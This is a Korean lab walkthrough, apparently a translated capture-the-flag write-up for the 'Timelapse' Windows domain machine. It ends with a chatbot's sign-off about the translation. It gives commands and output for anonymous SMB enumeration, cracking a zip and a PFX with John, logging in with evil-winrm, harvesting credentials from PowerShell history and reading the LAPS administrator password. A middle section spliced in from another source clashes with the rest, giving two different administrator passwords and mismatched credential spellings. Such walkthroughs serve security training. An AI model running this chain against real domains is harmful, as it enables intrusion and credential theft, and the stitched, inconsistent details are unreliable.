

**날짜:** 2022년 8월 19일 / 문서 번호 D22.100.194
**작성자:** woodenk
**머신 제작자:** d4rkpayload
**난이도:** 쉬움 (Easy)
**분류:** 공식 (Official)

### 개요 (Synopsis)

Timelapse는 쉬운 난이도의 Windows 머신으로, PFX 키가 포함된 zip 파일이 있는 공개 접근 가능한 SMB 공유 폴더에 접근하는 과정을 다룹니다. 이 zip 파일은 비밀번호를 요구하며, John(John the Ripper)을 사용해 크랙할 수 있습니다. zip 파일의 압축을 풀면 비밀번호로 암호화된 PFX 파일이 나오는데, 이 역시 PFX 파일을 John이 읽을 수 있는 해시 형식으로 변환하여 비밀번호를 알아낼 수 있습니다. PFX 파일에서 SSL 인증서와 개인 키를 추출해 내면 WinRM으로 로그인하는 데 사용할 수 있습니다.

인증을 마치고 접속한 후, `svc_deploy` 사용자의 로그인 자격 증명이 포함된 PowerShell 기록 파일(history file)을 발견합니다. 사용자 열거를 통해 `svc_deploy`가 `LAPS_Readers`라는 그룹의 구성원임을 알 수 있습니다. `LAPS_Readers` 그룹은 LAPS 내의 비밀번호를 관리할 수 있는 권한이 있으며, 이 그룹의 모든 사용자는 도메인 내 머신들의 로컬 비밀번호를 읽을 수 있습니다. 이러한 신뢰 관계를 악용하여 `Administrator`(관리자)의 비밀번호를 검색하고 WinRM 세션을 획득합니다.

### 요구 기술 (Skills Required)

* 열거 (Enumeration)
* 비밀번호 크래킹 (Password cracking)
* Windows에 대한 기본 지식

### 습득 기술 (Skills Learned)

* 공개 SMB 공유 (Public SMB Share)
* LAPS 권한 상승 (LAPS Privilege Escalation)

---

## 열거 (Enumeration)

### Nmap

Nmap을 사용하여 열려 있는 포트를 스캔하는 것으로 시작해 보겠습니다.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 -Pn TARGET_IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV -Pn TARGET_IP

```

```text
nmap -p- -sC -sV TARGET_IP
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-16 15:37:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| tls-alpn:
|   http/1.1
|_ssl-date: 2022-08-16T15:39:24+00:00; +8h00m00s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
61148/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m58s
| smb2-time:
|   date: 2022-08-16T15:38:47
|_  start_date: N/A

```

Nmap 출력 결과를 보면 여러 포트가 열려 있고, 머신 이름은 `dc01`, 도메인 이름은 `timelapse.htb`인 것을 알 수 있습니다. SMB 포트가 열려 있는 것을 확인했으므로, 익명으로 접근 가능한 공유 폴더가 있는지 검증해 봅니다.

### PFX 파일

사용 가능한 SMB 공유를 확인하기 위해 다음 명령을 사용합니다.

```bash
smbclient -L //TARGET_IP/

```

```text
Enter WORKGROUP\woodenk's password:

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
Shares          Disk      
SYSVOL          Disk      Logon server share

```

위의 출력을 보면 `Shares`라는 이름의 공유 폴더가 있으며, 자격 증명 없이도 접근할 수 있음을 알 수 있습니다.

```bash
smbclient //TARGET_IP/Shares

```

```text
Enter WORKGROUP\woodenk's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 17:39:15 2021
  ..                                  D        0  Mon Oct 25 17:39:15 2021
  Dev                                 D        0  Mon Oct 25 21:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 17:48:42 2021

                6367231 blocks of size 4096. 1229275 blocks available
smb: \> cd Dev\
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 21:40:06 2021
  ..                                  D        0  Mon Oct 25 21:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 17:46:42 2021

                6367231 blocks of size 4096. 1230013 blocks available
smb: \Dev\> get winrm_backup.zip
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (31.1 KiloBytes/sec) (average 31.1 KiloBytes/sec)
smb: \Dev\>

```

`Dev`와 `HelpDesk`라는 두 개의 폴더를 찾았습니다. `Dev` 폴더 안에는 `winrm_backup.zip`이라는 zip 파일이 있습니다. 파일의 압축을 풀려고 시도하면 현재로서는 알 수 없는 비밀번호를 요구합니다.

해시 크래킹 도구인 John을 사용하여 비밀번호를 크랙하려고 시도해 보겠습니다. 하지만 먼저 `zip2john` 유틸리티를 사용하여 zip 파일을 해시 형식으로 변환해야 합니다.

```bash
zip2john winrm_backup.zip > zip.john
john zip.john --wordlist=/usr/share/wordlists/rockyou.txt

```

```text
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: 2b chk, TS_chk, cmplen 2405, decmplen 2555, crc 12EC5683
...
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)
1g 0:00:00:06 DONE (2022-08-16 10:24) 1.612g/s 5602Kp/s 5602Kc/s 5602KC/s surfroxy154..supergay1
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

결과물은 PKCS#12 형식의 SSL 인증서와 개인 키가 포함된 PFX 파일입니다. PFX 파일은 비밀번호 없이 로그인하기 위해 WinRM에서 사용할 수 있습니다. 파일에서 이것들을 추출해 봅시다.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes

```

```text
Enter Import Password:
Mac verify error: invalid password?

```

위의 출력을 보면 `supremelegacy`와는 다른 비밀번호가 필요하다는 것을 알 수 있습니다. `pfx2john` 유틸리티를 활용하여 pfx 파일을 해시 형식으로 변환한 다음, John을 사용해 비밀번호를 크랙합니다.

다음 명령을 사용하여 pfx 파일의 비밀번호를 성공적으로 크랙할 수 있습니다.

```bash
python2 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.john
john pfx.john --wordlist=/usr/share/wordlists/rockyou.txt

```

```text
Using default input encoding: UTF-8
Loaded 1 password hash (pfx [PKCS12 PBE (.pfx, .p12) (SHA-1 to SHA-512) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes.
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)
1g 0:00:06:45 DONE (2022-08-16 10:46) 0.02222g/s 71816p/s 71816c/s 71816C/s thuglife6..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

**참고:** Python3을 사용하는 경우, John이 해시를 제대로 읽을 수 있도록 Python 스크립트 출력에서 `b'`와 `'`를 제거해 주어야 합니다.

비밀번호가 크랙되면 다음 명령을 사용하여 pfx 파일에서 SSL 인증서와 개인 키를 추출합니다.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem

```

---

## 악용 (Exploitation)

### 초기 침투 (Foothold)

pfx 파일을 해독하고 유효한 키와 인증서를 생성했으므로 WinRM을 통한 로그인을 시도해 볼 수 있습니다. Nmap 명령의 출력에서 WinRM이 주로 사용하지만 암호화되지 않은 연결 대신 SSL을 사용하는 포트 5986이 열려 있는 것을 보았습니다. Evil-winrm은 `-c` 및 `-k` 플래그를 사용하여 키와 인증서를 전달할 수 있으므로, 인증서와 키를 전달하고 타겟에 인증할 수 있습니다.

로그인한 후에는 명령줄 기록(commandline history)을 확인하여 권한을 상승시킬 수 있는지 알아보기 위해 수동으로 열거 작업을 수행합니다. 이렇게 하면 새로운 로그인 자격 증명을 발견할 수 있습니다.

```powershell
evil-winrm -i TARGET_IP -c cert.pem -k key.pem -S
whoami
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

```

```text
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
*Evil-WinRM* PS C:\Users\legacyy\Documents> type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KwaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit

```

새로운 자격 증명을 사용하여 다음 명령으로 Evil-winRM을 통해 로그인할 수 있습니다.

```powershell
evil-winrm -i TARGET_IP -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

```

로그인 시 `svc_deploy`가 어느 그룹의 멤버인지 확인할 수 있습니다.

```powershell
net user svc_deploy

```

```text
User name                    svc_deploy
Full Name                    svc_deploy
Comment                      
User's comment               
<SNIP>
Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers        *Domain Users
The command completed successfully.

```

계정 패스워드를 알았으니 bloodhound-python을 이용하여 Active Directory 정보를 스캔한다
```
bloodhound-python -d timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -dc timelapse.htb -c all -ns TARGET_IP
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: timelapse.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (timelapse.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: timelapse.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: timelapse.htb
INFO: Found 11 users
INFO: Found 55 groups
INFO: Found 2 gpos
INFO: Found 10 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: dc01.timelapse.htb
INFO: Done in 00M 48S
```


### 권한 상승 (Privilege Escalation)


LAPS
Windows LAPS란?을 참고하여 LAPS의 기본 개념에 대해서 익혔다. 로컬 관리자 계정의 비밀번호를 자동으로 관리하고 주기적으로 변경하는 기능을 제공한다.

svc_deploy 계정 정보를 확인하니 LABS_Readers 와 Domain Users 그룹에 속해있으며, LAPS_Readers 그룹 권한으로 dc01.timelapse.htb 로컬 관리자 계정의 비밀번호를 읽을 수 있는 ReadLAPSPassword 권한이 존재한다.




해당 권한을 이용하여 Get-AdComputer 명령으로 로컬 관리자 계정의 비밀번호를 확인한다.

```
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> get-adcomputer -filter * -properties ms-mcs-admpwd


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : 552S3,}auW)nR6,T+DSN1O{/
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :

DistinguishedName : CN=DB01,OU=Database,OU=Servers,DC=timelapse,DC=htb
DNSHostName       :
Enabled           : True
Name              : DB01
ObjectClass       : computer
ObjectGUID        : d38b3265-230f-47ae-bdcd-f7153da7659d
SamAccountName    : DB01$
SID               : S-1-5-21-671920749-559770252-3318990721-1606
UserPrincipalName :

DistinguishedName : CN=WEB01,OU=Web,OU=Servers,DC=timelapse,DC=htb
DNSHostName       :
Enabled           : True
Name              : WEB01
ObjectClass       : computer
ObjectGUID        : 897c7cfe-ba15-4181-8f2c-a74f88952683
SamAccountName    : WEB01$
SID               : S-1-5-21-671920749-559770252-3318990721-1607
UserPrincipalName :

DistinguishedName : CN=DEV01,OU=Dev,OU=Servers,DC=timelapse,DC=htb
DNSHostName       :
Enabled           : True
Name              : DEV01
ObjectClass       : computer
ObjectGUID        : 02dc961a-7a60-4ec0-a151-0472768814ca
SamAccountName    : DEV01$
SID               : S-1-5-21-671920749-559770252-3318990721-1608
```

C:\Users\TRX\Desktop


이전 명령의 출력을 보면 우리가 `LAPS_Readers` 그룹의 일원임을 알 수 있습니다. "Local Administrator Password Solution" (LAPS)는 Active Directory 컴퓨터의 로컬 계정 비밀번호를 관리하는 데 사용됩니다. github에서 `AdmPwd.PS`라는 이름의 비밀번호를 검색할 수 있는 PowerShell 모듈을 찾을 수 있습니다. 다음 명령을 사용하여 Evil-WinRM으로 모듈을 업로드할 수 있습니다.

```powershell
upload AdmPwd.PS

```

```text
Info: Uploading AdmPwd.PS to C:\Users\svc_deploy\Documents\AdmPwd.PS
Data: 53980 bytes of 53980 bytes copied
Info: Upload successful!

```

모듈을 업로드한 후 다음 명령을 사용하여 어떤 객체가 LAPS를 관리할 수 있는지 확인할 수 있습니다.

```powershell
Find-AdmPwdExtendedRights -identity *

```

```text
DistinguishedName                                  Name                     Status
-----------------                                  ----                     ------
OU=Domain Controllers,DC=timelapse,DC=htb          Domain Controllers       Delegated
OU=Servers,DC=timelapse,DC=htb                     Servers                  Delegated
OU=Database,OU=Servers,DC=timelapse,DC=htb         Database                 Delegated
OU=Web,OU=Servers,DC=timelapse,DC=htb              Web                      Delegated
OU=Dev,OU=Servers,DC=timelapse,DC=htb              Dev                      Delegated
OU=Staff,DC=timelapse,DC=htb                       Staff                    Delegated
OU=Admins,OU=Staff,DC=timelapse,DC=htb             Admins                   Delegated
OU=Dev,OU=Staff,DC=timelapse,DC=htb                Dev                      Delegated
OU=HelpDesk,OU=Staff,DC=timelapse,DC=htb           HelpDesk                 Delegated
OU=Groups,OU=Staff,DC=timelapse,DC=htb             Groups                   Delegated

More than one object found, search using distinguishedName instead

```

출력 결과에서 `Domain Controllers`를 볼 수 있습니다. 우리가 비밀번호를 관리할 수 있는지 권한 보유자(right holders)를 살펴보겠습니다. 다음 명령을 사용하여 이를 수행합니다.

```powershell
Find-AdmPwdExtendedRights -identity 'Domain Controllers' | select-object ExtendedRightHolders

```

```text
ExtendedRightHolders
--------------------
{NT AUTHORITY\SYSTEM, TIMELAPSE\Domain Admins, TIMELAPSE\LAPS_Readers}

```

이전 명령의 출력에서 `LAPS_Readers` 그룹이 Domain Controllers에 대한 위임(delegation)을 가지고 있어 이 객체의 사용자 비밀번호를 읽을 수 있음을 보여줍니다. 다음 명령을 사용하여 비밀번호를 검색합니다.

```powershell
Import-Module .\AdmPwd.PS\AdmPwd.PS.psd1
get-admpwdpassword -computername dc01 | Select password

```

```text
Password
--------
/1B@QZe3{BAAwzs%KY$pTb7d

```

다음 명령을 사용하여 Evil-WinRM을 통해 새로운 자격 증명으로 인증을 시도해 봅니다.

```powershell
evil-winrm -i TARGET_IP -u administrator -p '/1B@QZe3{BAAwzs%KY$pTb7d' -S

```

```text
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
Timelapse\administrator

```

관리자(administrator) 권한으로 쉘을 얻었으며 루트 플래그를 읽을 수 있습니다.

---

이번 번역도 완벽하게 준비해 봤어! 혹시 번역된 내용 중에 이해가 안 되는 해킹 기법이나 명령어에 대해 더 설명이 필요하면 언제든 말해줘! 다음 단계로 도와줄게 있을까?
